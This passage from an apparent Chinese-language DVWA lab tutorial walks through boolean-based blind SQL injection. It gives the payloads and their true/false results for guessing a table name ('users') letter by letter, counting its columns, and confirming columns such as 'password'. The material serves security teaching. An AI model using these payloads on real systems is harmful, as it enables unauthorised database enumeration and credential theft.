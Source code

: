 ```
```

按如上方法猜第二个表名：

```
猜解表二的长度
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>10;# MISSING
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>5;# MISSING
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>3;# exists
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=4;# MISSING
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))=5;# exists
得到表二长度为5
开始猜解表二的表名字母：
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),1,1)) =117;# exists 对应字母u
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),2,1)) =115;# exists 对应字母s
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),3,1)) =101;# exists 对应字母e
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),4,1)) =114;# exists 对应字母r
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 1,1),5,1)) =115;# exists 对应字母s
得到第二张表的表名是 users
```

​ e. 猜解表中的字段名，以dvwa中的users表为例：

```
猜解users表中的字段数量
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>10;# MISSING 
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>5;# exists 
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>8;# MISSING 
1' and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8;# exists
表users中有八个字段
```

```
1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1;# exists 说明有字段password
1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='user')=1;#  exists 说明有字段user
1' and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='first_name')=1;# exists 说明有字段first_name

```

